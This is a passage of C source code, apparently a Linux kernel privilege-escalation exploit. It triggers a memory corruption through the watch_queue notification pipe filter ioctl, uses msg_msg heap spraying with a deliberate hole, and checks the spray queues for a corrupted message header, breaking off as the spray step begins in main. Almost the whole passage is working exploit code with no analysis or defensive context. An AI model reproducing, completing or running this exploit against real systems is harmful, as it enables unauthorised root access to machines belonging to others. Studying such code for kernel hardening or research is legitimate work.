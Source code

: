 ```c

    filter->filters[nfilters - 1].type = 0x30a;

    if (pipe2(fds, O_NOTIFICATION_PIPE) == -1)
    {
        perror("trigger_vuln: pipe2 failed\n");
        exit(0);
    }

    if(ioctl(fds[0], IOC_WATCH_QUEUE_SET_FILTER, filter) < 0)
    {
        perror("trigger_vuln: ioctl failed\n");
        exit(0);
    }
}

int check_trigger(void)
{
    /* check corrupted msg_msg header */
    struct msg_buf *message = (struct msg_buf*)malloc(0x1000);
    memset(message, 0, 0x1000);
    int i;
    int recv_code = 0;

    for (i = 0; i < MSG_MSG_SPRAY_COUNT; i++)
    {
        if (i == HOLE_MSG_INDEX)
        {
            continue;
        }

        /* MSG_COPY because we should not free msg_msg header */
        if (msgrcv(spray_queue[i], message, SPRAY_SIZE_KMALLOC_1024, 1, MSG_COPY | IPC_NOWAIT) < 0)
        {
            perror("check_trigger: msgrcv failed\n");
            printf("check_trigger: %d msgrcv failed\n", i);
            exit(0);
        }
        if (((uint64_t*)message->mtext)[0] != i)
        {
            printf("triggered index: %d, %llx\n", i, ((uint64_t*)message->mtext)[0]);
            return i;
        }
    }
    return -1;
}

void msg_msg_clean()
{
    int i;
    for(i = 0; i < MSG_MSG_SPRAY_COUNT; i++)
    {
        msgctl(spray_queue[i], IPC_RMID, NULL);
    }
}

int main(void)
{
    //cpu_init();
    int i;
    for(i = 0; i < 10; i++)
    {
        printf("[STEP1-1] Spray msg_msg and make hole\n");
```